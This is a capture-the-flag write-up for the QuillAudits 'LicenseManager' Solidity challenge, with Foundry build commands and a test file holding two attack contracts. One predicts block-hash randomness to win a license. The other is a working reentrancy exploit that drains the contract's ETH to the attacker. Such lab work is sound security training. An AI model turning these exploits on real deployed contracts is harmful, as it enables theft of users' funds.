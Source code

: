 ## Capture the Flag Challenge `LicenseManager`

https://academy.quillaudits.com/challenges/licensemanager

## Prerequisites

This project uses `foundry` (https://book.getfoundry.sh/) which needs to be set up.

## Running the project

Run the following commands to install dependencies:
```
forge install foundry-rs/forge-std
```

Run the following command to compile the contracts:
```
forge build
```

Run the following command to run the tests:
```
forge test
```

## Solution

I created two attack contracts. Each test has its own attack contract.

The first attack/test

Every time a new block is created, the attacker calculates with the `canGetLicence` function, if it would be able to win a license in the next block. If that is the case, the attacker calls immediately (so that its transaction ends up in the next block created) the `winLicense` function. The attacker has only spent 0.01 ETH so far and got a license. The attacker can now call the `refundLicense()` function to get 1 ETH paid out. The attacker's balance is now greater than 0.01 ETH.

The second attack/test

This can be done with a basic reentrancy attack. First, call the `buyLicense` function in the `licenceManager` from the `attackContract2`, then call the `refundLicense` function from the same `attackContract2`. Because the `receive()` function is invoked when 1 ETH is paid out to the `attackContract2`, a reentrance attack can be executed to drain all the funds on the `licenceManager`.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/LicenseManager.sol";

// Calculates if the attacker would be able to successfully get a licence if it would call the `winLicense` function in this `blockNumber`.
contract AttackContract1 {
    function canGetLicence(uint blockNumber) public payable returns (bool) {
        uint algorithm = uint(
            keccak256(
                abi.encodePacked(
                    uint256(0.01 ether),
                    msg.sender,
                    uint(1337),
                    blockhash(blockNumber - 1)
                )
            )
        );
        uint pickedNumber = algorithm % 100;
        if (pickedNumber < 1) {
            return true;
        } else {
            return false;
        }
    }
}

contract AttackContract2 {
    LicenseManager licenceManager;
    address attacker;

    constructor(LicenseManager _licenceManager, address _attacker) {
        licenceManager = _licenceManager;
        attacker = _attacker;
    }

    function buyLicense() public payable {
        licenceManager.buyLicense{value: msg.value}();
    }

    function refundLicense() public payable {
        licenceManager.refundLicense();
        // Send stolen funds to attacker
        (bool success, ) = attacker.call{value: address(this).balance}("");
        require(success);
    }

    // Reentrancy attack; Draining the complete balance of the licenceManager contract
    receive() external payable {
        while (address(licenceManager).balance > 0) {
            licenceManager.refundLicense();
        }
    }
}

/**
 * @title Test contract for LicenseManager
 */
contract LicenseManagerTest is Test {
    LicenseManager license;
    AttackContract1 attackContract1;
    AttackContract2 attackContract2;

    address owner = makeAddr("owner");
    address user1 = makeAddr("user1");
    address user2 = makeAddr("user2");
    address user3 = makeAddr("user3");
    address user4 = makeAddr("user4");

    address attacker = makeAddr("attacker");

    receive() external payable {}

    function setUp() public {
        vm.prank(owner);
        license = new LicenseManager();

        vm.deal(user1, 1 ether);
        vm.deal(user2, 1 ether);
        vm.deal(user3, 1 ether);
        vm.deal(user4, 1 ether);

        vm.prank(user1);
        license.buyLicense{value: 1 ether}();

        vm.prank(user2);
        license.buyLicense{value: 1 ether}();

        vm.prank(user3);
        license.buyLicense{value: 1 ether}();

        vm.prank(user4);
        license.buyLicense{value: 1 ether}();
    }

    function test_exploit1_2() public {
        vm.deal(attacker, 0.01 ether);
        vm.startPrank(attacker);

        // Challenge 1 solution

        attackContract1 = new AttackContract1();

        // Every time a new block is created, the `attacker` checks with the function `canGetLicence` if it would be able to win a licence in the next block.
        for (
            uint nextBlockNumber = 1;
            nextBlockNumber < 200;
            nextBlockNumber++
        ) {
            // We set the nextBlockNumber
            vm.roll(nextBlockNumber);

            bool canGetLicence = attackContract1.canGetLicence(nextBlockNumber);

            // If `attacker` can get a licence, it immediatly calls the `winLicence` function (so that his/her transaction ends up in the next block created)
            if (canGetLicence == true) {
                license.winLicense{value: 0.01 ether}();
                break;
            }
        }

        assertEq(true, license.checkLicense());
        vm.stopPrank();

        vm.startPrank(attacker);

        // Challenge 2.1 solution

        license.refundLicense();

        assertGt(attacker.balance, 0.1 ether);
        vm.stopPrank();
    }

    /// Collect the ethers in the contract before the owner notices in second way.
    function test_exploit3() public {
        vm.deal(address(this), 1 ether);

        // Challenge 2.2 solution

        attackContract2 = new AttackContract2(
            LicenseManager(license),
            address(this)
        );
        attackContract2.buyLicense{value: 1 ether}();
        attackContract2.refundLicense();

        console.log("\tFinal Balance\t", address(this).balance);
        assertGt(address(this).balance, 1 ether);
    }
}
```

